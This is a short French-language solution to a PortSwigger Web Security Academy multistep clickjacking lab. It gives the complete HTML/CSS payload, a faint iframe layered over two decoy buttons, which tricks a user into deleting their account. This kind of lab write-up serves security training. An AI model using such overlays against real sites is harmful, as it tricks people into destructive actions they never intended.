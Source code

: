 # Lab

https://portswigger.net/web-security/clickjacking/lab-multistep

## Solution

Pour ce lab, il faut cliquer sur deux boutons dans un ordre précis pour supprimer le compte de l'utilisateur.

Il faut faire un iframe avec une opacité de 0.2 pour que l'utilisateur ne le voit pas. Ensuite, il faut placer deux boutons sur l'iframe. Le premier bouton doit être placé sur le bouton `Delete account` et le deuxième bouton doit être placé sur le bouton `Yes`.

En ajustant la position des deux `div` et en ajustant la taille de l'iframe, on peut arriver à un résultat comme celui-ci:

```html
<style>
	iframe {
		position:relative;
		width:800px;
		height: 800px;
		opacity: 0.2;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:495px;
		left:50px;
		z-index: 1;
	}
   .secondClick {
		top:290px;
		left:200px;
	}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0a7e007b03f693678007a940004800fa.web-security-academy.net/my-account"></iframe>
```